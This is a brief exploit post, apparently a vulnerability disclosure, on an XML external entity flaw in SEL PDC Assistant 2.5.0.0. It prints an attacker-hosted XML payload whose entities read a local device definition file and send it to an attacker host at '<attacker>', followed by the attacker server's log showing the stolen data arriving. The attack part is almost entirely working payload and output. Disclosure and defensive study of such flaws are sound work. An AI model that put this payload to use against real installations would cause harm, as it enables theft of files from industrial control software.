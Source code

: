 ```yaml
---
layout: post
title: SEL PDC Assistant
date: 2019-12-22
excerpt: "."
tags: [exploit]
comments: false
---
```

## SEL PDC Assistant (2.5.0.0) XML External Entity Information Disclosure
SEL PDC Assistant software is vulnerable to XXE processing. a
specially crafted pdcx (PDC Export File) can abuse the XML parser
to disclose sensitive information.

attacker hosted xml.
```
<!ENTITY % data SYSTEM "file:///c:/Program Files/SEL/SEL PDC Assistant/DeviceDefinitionFiles/SEL-787.devx">
<!ENTITY % param "<!ENTITY &#x25; out SYSTEM 'http://<attacker>/?%data;'>">
```
attacker controlled server output once the specially crafted pdcx file
is parsed.
```
mc@vato:/tmp/working$ !py
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
x.x.x.x - - [23/Dec/2019 09:19:34] "GET /sel.xml HTTP/1.1" 200 -
x.x.x.x - - [23/Dec/2019 09:19:34] "GET /?%0D%0A%3CDeviceDefinition%20Name=%22SEL-787%22%20xmlns:xsi=%22http://www.w3.org/2001/XMLSchema-instance%22%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20xsi:noNamespaceSchemaLocation=%22DeviceDefinition.xsd%22%3E%0D%0A%20%20%3CTags%3E%0D%0A%20%20%20%20%3CTag%20Type=%22Phasor%22%20Name=%22V1%22%20Description=%22Positive%20Sequence%20Voltage%22%20QuantityType=%22Voltage%22%20Phase=%221%22%20Units=%22V%22/%3E%0D%0A%20%
<snip>
```
[SEL-PDC-ASSISTANT](https://github.com/ceballosm/scratchpad/tree/master/SEL/SEL-PDC-ASSISTANT)
